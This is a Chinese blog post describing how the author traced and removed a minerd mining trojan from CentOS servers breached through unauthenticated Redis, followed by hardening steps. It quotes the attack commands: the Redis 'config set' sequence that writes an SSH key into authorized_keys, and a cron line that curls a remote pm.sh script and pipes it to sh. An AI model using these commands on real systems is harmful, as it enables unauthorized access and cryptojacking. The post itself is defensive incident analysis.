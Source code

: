 ```yaml
---
title: 彻底清除Linux centos minerd木马
categories:
  - 错误集锦
tags:
  - redis
date: 2016-10-26 22:41:19
---
```


>前几天，公司两台linux服务器，一台访问速度很慢，cpu跑满，一台免密码登录失效，公钥文件被改写成redis的key。用htop命令查询发现了minerd木马进程，初步猜测是redis没有配访问权限造成的。网上查询minerd木马，发现这是一个很常见的挖矿程序，相关猜测也得到了验证。

下文是网上搜索到的清除minerd木马方法。

## 现状描述
1、top可以看到，这个minerd 程序把cpu跑满了

![1.jpg](1.jpg)
2、ps aux | grep minerd
可知是这个程序: /opt/minerd

<!-- more -->

这个不是我们自己启动的，可以断定服务器被黑了
这个进程是root用户启动的，代码有漏洞可能性不大（web服务是www用户启动的），多半黑客已经登录服务器了

![2.jpg](2.jpg)
3、有可能是免密登录了，去/root/.ssh 目录下，并没有发现authorized_keys，但发现了KHK75NEOiq这个文件

查看 vim KHK75NEOiq
可以看到内容就是免密码登录的公钥

![3.jpg](3.jpg)
4、在ssh的配置文件/etc/ssh/sshd_config中也可以看到把AuthorizedKeysFile指向了这个文件了（.ssh/KHK75NEOiq）

猜想是这样的：通过authorized_keys免密码登录后，在这个目录下创建了KHK75NEOiq这个文件，修改了AuthorizedKeysFile的指向，就把authorized_keys这个文件删除了。

![4.jpg](4.jpg)
5、那么是写进来authorized_keys的那？

之前我处理过类似的问题，是redis未授权导致的，也就是说外网可以直接不用密码登录我的redis, 连上redis后，通过以下命令即可创建文件：

<font style="color:red">**config set dir /root/.ssh
config set dbfilename authorized_keys
set key value，其中value为生成公钥，即可将公钥保存在服务器，使得登录时不需要输入账号与密码。**</font>

<br/>

---

## 先堵住免登录漏洞
1、修改ssh端口
编辑/etc/ssh/sshd_config文件中的Port 22将22修改为其他端口

2、禁止root用户登陆
编辑/etc/ssh/sshd_config文件中的PermitRootLogin 修改为no

3、修改无密码登陆的文件路径
编辑/etc/ssh/sshd_config文件中的AuthorizedKeysFile 修改为其他文件路径

4、删除 .ssh下的 KHK75NEOiq

5、不让外网直接连接
在 redis.conf 文件中找到#bind 127.0.0.1，把前面的#号去掉，重启

---

## 找到木马守护进程
1、通常直接kill掉进程，是不好使的，肯定有守护进程，还有系统自启动，所以清理步骤是这样的：
1）干掉守护进程
2）干掉系统自启动
3）干掉木马进程

找到木马守护进程并干掉

守护进程有大概有两种存在形式，crontab 和常驻进程，常驻进程得慢慢分析，我们先看crontab，有一条不是我创建的任务。任务是：直接从远程下载一个脚本pm.sh 并执行。

![5.jpg](5.jpg)

2、我们来看看这个脚本

![6.jpg](6.jpg)

3、大致逻辑是这样的：
1）把 */10 * * * * curl -fsSL http://r.chanstring.com/pm.sh?0706 | sh 写入crontab
2）把authorized_keys删掉，并创建免登录文件/root/.ssh/KHK75NEOiq，修改ssh配置重启
3）curl下载/opt/KHK75NEOiq33 这个文件，并执行安装（/opt/KHK75NEOiq33 --Install），然后启动ntp

4、基本可以断定这个ntp就是守护进程，但看到ntp真的有些怕怕，ntp不是搞时间同步的吗，其实 Linux正常的ntp服务叫ntpd，并非ntp，很有迷惑性啊

![7.jpg](7.jpg)

5、但为了让自己放心，还是校验了一番
我们先从时间上校验，ntp是不是木马任务后创建的

查看这个木马任务第一次执行的时间
去/var/log下看cron的日志

![8.jpg](8.jpg)

6、Jul 24 09:23:01 第一次执行： curl -L http://r.chanstring.com/pm.sh?0703
Jul 24 09:30:01 第一次我们目前crontab里的任务：curl -fsSL http://r.chanstring.com/pm.sh?0706
Jul 24 09:49 脚本/etc/init.d/ntp的创建时间

从pm.sh这个脚本可知 curl下来/opt/KHK75NEOiq33这个文件，并执行安装 /opt/KHK75NEOiq33 --Install 比较耗时间，我执行了一下，在我的机器上是10多分钟。

所以创建时间上基本吻合

![9.jpg](9.jpg)

7、我们看一下ntp的随系统启动
runlevel 2 3 4 5都启动了，够狠的呀

![10.jpg](10.jpg)

8、看一下常用的3吧
可以看到 有个S50ntp 软链了脚本/etc/init.d/ntp

![11.jpg](11.jpg)

9、我们查看系统启动日志
vim /var/log/boot.log
有一条是Staring S50ntp，这个基本对应脚本/etc/init.d/ntp 中的 echo "Starting $name"

![12.jpg](12.jpg)

10、我们来看一下 /etc/init.d/ntp 这个脚本
$name应该就对应的值是 S50ntp，通过stdout_log,stderr_log,pid_file也得到了验证。

![13.jpg](13.jpg)

11、通过搜索安装文件（/opt/KHK75NEOiq33），可知看到 /opt/KHK75NEOiq33 --Install的过程中写入了ntp脚本 自启动 /opt/minerd等一系列的操作。

![14.jpg](14.jpg)

12、打开 /usr/local/etc/minerd.conf，内容就是/opt/minerd这个进程后的一些参数

![15.jpg](15.jpg)

13、好了 验证完毕，可以干掉这个ntp了

---

## 清理木马
1、去掉crontab文件中的有关木马内容：
/var/spool/cron/crontabs/root
/var/spool/cron/root

2、干掉守护进程ntp，并删除相关文件

![16.jpg](16.jpg)
![17.jpg](17.jpg)

3、干掉木马进程及其文件

![18.jpg](18.jpg)

4、干掉安装文件及免密登录的文件

![19.jpg](19.jpg)

5、干掉随系统启动的文件

![20.jpg](20.jpg)

6、top一下 一切都正常了！

![21.jpg](21.jpg)

7、重启一下，也没问题了

![22.jpg](22.jpg)